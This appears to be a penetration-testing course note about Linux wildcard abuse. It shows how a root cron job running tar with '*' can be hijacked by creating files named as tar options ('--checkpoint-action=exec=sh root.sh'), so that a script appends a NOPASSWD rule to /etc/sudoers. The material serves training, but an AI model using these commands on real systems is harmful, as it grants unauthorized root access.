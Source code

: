 # Wildcard Abuse

| **Command** | **Description** |
|--------------|-------------------|
| * | An asterisk that can match any number of characters in a filename|
| ? | Matches a single character | 
| [ ] | Brackets enclose characters and can match any single one at the defined position | 
| ~ | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. | 
| - | A hyphen within brackets will denote a range of characters |

An example of how wildcards can be abused for privilege escalation is the **tar** command, a command program creating/extracting archives. If we look at the *man page* for the **tar** command:

```
<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
```

The **--checkpoint-action** option permits an **EXEC** action to be executed when a checkpoint is reached (i.e., run an arbirtrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, **--checkpoint=1** and **--checkpoint-action=exec=sh root.sh** is passed to **tar** as command-line options. Let's see this in practice.

Consider the following cron job, which is set to run every minute, so it is a good candidate for privilege escalation.

```
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the crob jobs run, these file names will be interpreted as arguments and execute any commands that we specify:

```
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

We can check and see that the necessary files were created

```
<...>
```

Once the cron job runs again, we can check for the newly added sudo privileged and sudo to root directly.


---

↩️: [Home](../../index.md)
